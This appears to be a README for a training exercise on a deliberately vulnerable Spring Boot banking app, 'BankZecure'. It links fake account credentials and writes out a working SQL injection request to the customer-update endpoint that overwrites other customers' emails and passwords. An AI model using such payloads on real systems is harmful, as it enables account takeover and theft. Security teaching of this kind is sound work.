 # BankZecure Web Application

All the instructions are in the quest!

The fake customer accounts' credentials are listed [here](https://github.com/WildCodeSchool/quest-springboot-sql-injection/blob/master/FakeAccountsCredentials.md).

## Update vulnerability

As the identifier is used to select the customer to update, we can use postman and send the request below.
So, we can change the email and the password of an unknown customer and access to his account

POST /customers/update?identifier=' or id>1; -- '&email=autre@mail.com&password=0000